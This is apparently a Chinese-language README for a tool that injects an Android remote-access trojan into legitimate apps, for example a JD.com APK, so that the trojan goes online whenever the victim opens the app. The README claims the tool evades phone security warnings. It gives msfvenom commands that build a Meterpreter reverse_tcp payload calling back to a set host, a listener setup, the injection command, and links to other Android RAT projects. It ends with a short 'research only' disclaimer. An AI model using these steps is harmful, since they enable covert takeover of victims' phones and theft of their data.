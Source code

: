 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的App中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控App。

* 520ApkBox是一个java编写的App，主要作用是一个安卓虚拟机，任何App可以不用任何修改就可以正常运行，可以绕过现在各种App的安全检测。同时此App还是一个加载器，通过DexClassesLoder加载远控的Dex文件并启动上线。

* 520ApkHook是Java编写的注入工具，将被注入的App和远控App注入到一个App中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. 下载Releases中打包好的jar包  

 * [a520ApkHook-1.0-jar-with-dependencies.jar](https://github.com/ba0gu0/520apkhook/releases/download/v2.0/a520ApkHook-1.0-jar-with-dependencies.jar)

2. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
3. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j

```
4. 520ApkHook

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar  ~/Downloads/京东.apk ~/Downloads/msf.apk

```

5. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 一款安卓僵尸网络远控工具, 服务端是web网页,  基于[https://deta.space](https://deta.space) 搭建(匿名): 

  * [https://github.com/ScRiPt1337/Teardroid-phprat](https://github.com/ScRiPt1337/Teardroid-phprat)

* 一款安卓远控程序, 服务端是GUI程序: 

  * [https://github.com/AhMyth/AhMyth-Android-RAT](https://github.com/AhMyth/AhMyth-Android-RAT)

* 搜集的一些github上的安卓远控项目:

  *  [https://github.com/wishihab/Android-RATList](https://github.com/wishihab/Android-RATList)


## BUG

* 微信只能通过应用克隆的方式安装，需要先指定微信的apk包，生成520ApkHook.apk. 再使用np管理器把assets目录下的和微信大小一样的文件给删除掉。（这种方法要求目标机器上要已经安装微信.）

* 新生成的apk的包名字, 不能和被注入的apk包名字一样, 程序默认已经修改.

* msf无法在鸿蒙OS使用, 文件读取在鸿蒙OS上也无法正常使用.

* 其他未测试...

## 项目依赖

* 本项目参考以下项目

* 由于安卓虚拟化牵扯到其他github上被下架的程序，在这里不再进行列出，避免被影响。


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码 (欢迎大佬提交pull) .